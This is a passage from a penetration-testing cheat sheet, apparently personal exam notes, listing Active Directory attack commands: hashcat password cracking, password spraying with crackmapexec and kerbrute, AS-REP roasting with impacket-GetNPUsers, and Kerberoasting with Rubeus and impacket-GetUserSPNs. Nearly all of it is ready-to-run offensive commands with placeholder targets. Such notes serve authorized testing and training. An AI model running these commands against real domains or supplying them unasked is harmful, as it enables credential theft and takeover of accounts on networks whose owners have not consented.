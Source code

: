 ```sh
hashcat -m <number> hash wordlists.txt --force
```

## Active Directory

### Password Spraying

_Crackmapexec - check if the output shows 'Pwned!'_

```sh
crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success
```

```sh Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```

### AS-REP Roasting

_Hash of AS-REP Roastable accounts_

```sh
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request
```

### Kerberoasting

_dumping from compromised windows host, and saving with customname_

```sh
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast #dumping from compromised windows host, and saving with customname

impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request #from kali machine

hashcat -m 13100 hashes.txt wordlist.txt --force # cracking hashes
```
